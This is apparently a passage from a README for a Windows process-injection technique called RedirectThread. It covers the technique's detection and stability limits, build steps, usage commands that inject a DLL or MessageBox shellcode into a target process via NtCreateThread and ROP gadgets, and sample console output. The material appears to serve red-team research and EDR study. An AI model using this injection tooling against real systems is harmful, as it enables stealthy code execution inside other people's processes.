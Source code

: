 ### 2. Noise
- Multiple thread creation events highly visible to EDR
- ETW (Event Tracing for Windows) will log all thread creations
- Not stealthy in terms of event volume

### 3. Gadget Dependency
- Requires suitable ROP gadget in target process
- Gadget search can be time-consuming
- May not find suitable gadget in some processes

### 4. Stability
- Relies on ASLR producing same base addresses across processes
- System DLL bases must match (usually does on Windows 10+)
- Stack allocation can fail if memory is constrained

## Implementation

### Building

```batch
cd techniques\40-redirect-thread
build.bat
```

### Usage

#### DLL Pointer Injection
```batch
# Inject 0.dll using existing memory pointer
redirect_thread.exe --dll-pointer 1234 0.dll

# Note: DLL must exist in target's DLL search path or current directory
```

#### NtCreateThread Shellcode Injection
```batch
# Inject MessageBox shellcode using NtCreateThread + ROP gadget
redirect_thread.exe --ntcreatethread 1234
```

### Example Output (NtCreateThread)

```
========================================
RedirectThread - Context-Only Injection
========================================

[*] Starting NtCreateThread injection
[+] Found ROP gadget at: 0x00007FFE12345678 (reg1=0, reg2=1)
[+] VirtualAlloc: 0x00007FFE11111111
[+] ExitThread: 0x00007FFE22222222
[+] RtlFillMemory: 0x00007FFE33333333
[*] Step 1: Allocating memory at 0x60000 (size: 4096)
[+] Memory allocated successfully
[*] Step 2: Writing shellcode (72 bytes)
  [*] Progress: 72/72 bytes written
[+] Shellcode written successfully
[*] Step 3: Executing shellcode
[+] Shellcode executed successfully

[+] Injection successful!
```
